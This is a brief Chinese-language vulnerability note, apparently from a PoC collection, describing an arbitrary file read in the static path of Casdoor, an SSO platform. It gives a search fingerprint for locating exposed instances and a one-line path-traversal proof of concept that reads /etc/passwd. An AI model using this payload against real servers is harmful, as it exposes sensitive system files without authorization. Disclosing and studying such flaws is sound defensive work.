

# Casbin casdoor static 任意文件读取漏洞

## 漏洞描述

Casdoor 是 Casbin 开源社区推出的基于 OAuth 2.0 / OIDC 的中心化的单点登录（SSO）身份验证平台。

Casdoor static 存在任意文件读取漏洞，攻击者通过发送特殊的请求包可以获取服务器中的敏感文件。

## 漏洞影响

```
Casdoor
```

## 网络测绘

```
title="Casdoor"
```

## 漏洞复现

登陆页面


或者


poc

```
/static/../../../../../../../../../../../etc/passwd
```

